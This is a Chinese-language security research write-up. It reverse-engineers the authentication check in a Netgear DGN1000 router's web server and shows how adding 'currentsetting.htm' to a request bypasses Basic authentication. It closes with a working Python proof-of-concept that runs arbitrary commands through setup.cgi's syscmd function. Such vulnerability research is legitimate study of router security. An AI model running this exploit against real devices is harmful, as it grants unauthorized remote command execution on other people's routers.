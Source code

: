 # DGN1000_unauthorized_comamnd_injection






---

![](vx_images/21526719452531.png)


最后在这里发现了个后门页面，访问发现可以命令执行 。


![](vx_images/535906218752489.png)

![](vx_images/77490624384333.png)

但是现在是已授权命令执行，我们需要绕过BA认证。
![](vx_images/536381941701306.png)
删除Authorization: Basic YWRtaW46cGFzc3dvcmQ=后，会显示Authorization: warning，无法命令执行。

---
# 未授权绕过

本服务是用mini_httpd起的，Authorization功能应该也是在其中的。我们用ida分析看看

![](vx_images/471122002746760.png)
尝试用授权相关的字符串定位WWW-Authenticate:

![](vx_images/596833289219970.png)

查看上级调用的函数，注意到系统日志记录了Administrator login successful - IP:%s
![](vx_images/390022922856594.png)



接下来，我们注意到打印登录成功日志前，有一个判断。
![](vx_images/552905401506301.png)

如果flag==0  就会正常执行登录流程，并用kill(ppid,1)将程序挂起。而kill(ppid,17)则会终止程序。这也从侧面说明，它是授权判断完成后，再结束程序的，所以我们只要能控制flag的值为0，很可能就能登录成功。

---

所以这里我们去查看flag的引用，看是否又可以给它赋值的地方。


![](vx_images/483973858331806.png)

我们看到这里给flag赋值了。
同时让我们再来关注下a1是从哪里来的
![](vx_images/533044257912102.png)
首先a1由调用函数传参。

![](vx_images/290821426444562.png)
来自于dword_100000DC.
![](vx_images/418902345195970.png)

在整个上层函数中，只有这里调用了它。
程序的逻辑如下
```
currentsetting.htm存在 -----》dword_100000DC=0   -------》a1=0   ---------》不进入if(a1),直接执行后面的功能
```





详细分析下if(a1)这里

![](vx_images/434784871821804.png)


如果flag==1的话，跳转到lable12
![](vx_images/490116421823088.png)

# 结构体stat知识补充
```
int stat(const char *path, struct stat *buf);
参数
    path：要获取状态信息的文件或目录的路径。
    buf：指向一个 struct stat 结构体的指针，stat 函数会将文件状态信息填充到这个结构体中。
返回值
    返回 0 表示成功。
    返回 -1 表示失败，并设置 errno 以指示具体错误。
```

# 代码分析


 前面定义了
 char v116[10000]; // [sp+2B28h] [-3330h] BYREF
 struct stat v117; // [sp+5238h] [-C20h] BYREF


![](vx_images/297617282595866.png)
这里拼接路径，加上后缀/.htpasswd
stat 函数用于检查 .htpasswd 文件是否存在，如果不存在且 IP 地址与预期不符，则记录管理员登录成功的日志

---

解释下这个判断
![](vx_images/144466560117124.png)
```
这个地方，是因为每次进来的数据包ip_addr会被存在&byte_10000040这个位置。只有另一个ip再登录的时候，才会系统才会打印"Administrator login successful - IP:%s"
不做这个判断的话，同一个ip每次发一个包，日志就会记录这个
```

---






如果这里没有进入if(stat())
程序会执行如下  代码行173到292
```

```

![](vx_images/326568052935500.png)

先判断dword_100073B0是否存在，不存在输出未授权
拿出前6个字节，和Basic 比较，不一样也输出未授权。
那很明显，后面它就要比较base64加密后的密码了

![](vx_images/216386443090192.png)
果然下面调用了strcmp  ,且在比较后打印是否授权成功。



---
所以到这里我们可以判断，

当a1=1,flag=0,会直接认证成功。
当a1=1,flag=1时，会进行账号密码的验证。
当a1=0, 会直接if（）中的语句，直接绕过验证，继续执行LABEL_61:  后的代码

---


因为验证是否授权，都在这个if(a1)中，所以a1=0  直接跳到后面，实现了未授权。



# 向上寻找输入点
所以综合上述，我们只要保证dword_10007390中有currentsetting.htm就可能实现未授权命令执行。

![](vx_images/483973858331806.png)

---
## 思路1
简单思路如下：
![](vx_images/42327572223737.png)

dword_10007390之前先做了判断，之后来自于格式化字符串/ca/setup.cgi?next_file=%s格式。感觉上是从url头获取的值，所以尝试一下，也可以越权


![](vx_images/83186467257873.png)

成功越权了。

---

exp编写

```
import requests

cmd = "ls"
target_ip="192.168.0.1"



burp0_url = "http://"+target_ip+"/setup.cgi?todo=syscmd&cmd=" + cmd + "&_=1721817685516&currentsetting.htm"
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "X-Requested-With": "XMLHttpRequest",
    "Connection": "close",
    "Referer": "http://192.168.0.1/syscmd.htm"
}


response = requests.get(burp0_url, headers=burp0_headers)


if response.status_code == 200:

    print "Response content:"
    print response.text
else:
    print "Request failed with status code:", response.status_code

```

---





